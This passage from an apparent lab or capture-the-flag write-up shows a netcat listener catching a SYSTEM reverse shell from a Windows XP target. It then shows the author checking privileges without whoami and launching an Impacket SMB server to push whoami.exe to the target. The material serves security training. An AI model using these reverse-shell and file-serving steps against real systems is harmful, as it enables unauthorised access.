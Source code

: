 And I get a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1029.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>

```

## Beyond Root - Whoami

XP doesn’t have a `whoami` binary or command! So while I suspected that I was system with both of these exploits, how would I know:

```

C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.

```

For most users, I can use `echo` and the `%username%` environment variable:

```

C:\WINDOWS\system32>echo %username%
%username%

```

The fact that that environment variable doesn’t expand is a good sign that I’m system. If I want to go further, I can use `whoami.exe`, which is already on kali by default:

```

root@kali# locate whoami.exe
/usr/share/windows-binaries/whoami.exe

```

I’ll just share that folder over SMB with the command:

```

root@kali# smbserver.py a /usr/share/windows-binaries/
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```
